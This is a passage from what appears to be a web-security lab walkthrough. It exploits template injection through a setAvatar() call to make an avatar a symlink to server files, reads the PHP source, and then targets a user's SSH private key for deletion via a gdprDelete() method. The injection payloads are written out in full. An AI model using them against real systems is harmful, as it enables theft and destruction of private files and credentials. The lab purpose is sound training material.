Try:

```text
blog-post-author-display=user.setAvatar('/home/carlos/User.php','image/jpeg')
```

Refresh the comment — the avatar image becomes a symlink to the PHP file.
Open image in new tab → get the PHP source code.

<img width="1193" height="268" alt="image" src="https://github.com/user-attachments/assets/cbe95b28-1780-436e-8cec-e7cbec4d2c47" />

<img width="838" height="113" alt="image" src="https://github.com/user-attachments/assets/53a2e48f-5fbe-4282-921c-d4b4b8fb548c" />


Repeat for:

```text
blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php','image/jpeg')
```

<img width="984" height="680" alt="image" src="https://github.com/user-attachments/assets/6033c6a8-ea79-45b5-9b0a-1c8364f77d66" />
	Nothing to see here :)



### Finding the `gdprDelete()` Method

Discovered in `User.php`:

```php
public function gdprDelete() {
    $this->rm(readlink($this->avatarLink));
    $this->rm($this->avatarLink);
    $this->delete();
}
```

<img width="1902" height="237" alt="image" src="https://github.com/user-attachments/assets/876ab927-1cf4-4642-99f0-e112c4e8fd23" />

<img width="1688" height="666" alt="image" src="https://github.com/user-attachments/assets/7f33ef7a-2ff5-4f9b-b3b2-9f57349bc224" />

	Nothing to see here :)



### Final Exploit - Delete Sensitive File

1. Set symlink to sensitive file:

```text
blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')
```


<img width="1907" height="229" alt="image" src="https://github.com/user-attachments/assets/6ba5f03e-c6dd-40a2-90f9-146758569946" />


<img width="1907" height="229" alt="image" src="https://github.com/user-attachments/assets/6ba5f03e-c6dd-40a2-90f9-146758569946" />
